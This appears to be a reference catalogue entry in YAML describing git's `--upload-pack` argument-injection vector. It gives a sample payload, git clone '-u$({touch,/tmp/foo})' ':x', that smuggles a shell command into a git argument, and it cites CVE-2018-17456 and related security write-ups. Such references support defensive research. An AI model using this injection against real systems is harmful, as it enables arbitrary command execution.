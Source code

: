 ```yaml
---
functions:
  command:
    - description: |
        The `--upload-pack` vector requires a positional argument in addition to
        the injected argument. If possible, use a colon in the positional argument
        to always trigger the command.
      code: |-
        git clone '-u$({touch,/tmp/foo})' ':x'
      references:
        - title: "CVE-2018-17456"
          url: https://0day.click/recipe/cve-2018-17456/
        - title: "Securing Developer Tools: Argument Injection in Visual Studio Code"
          url: https://www.sonarsource.com/blog/securing-developer-tools-argument-injection-in-vscode/
        - title: "Securing Developer Tools: Package Managers"
          url: https://www.sonarsource.com/blog/securing-developer-tools-package-managers/
---
```

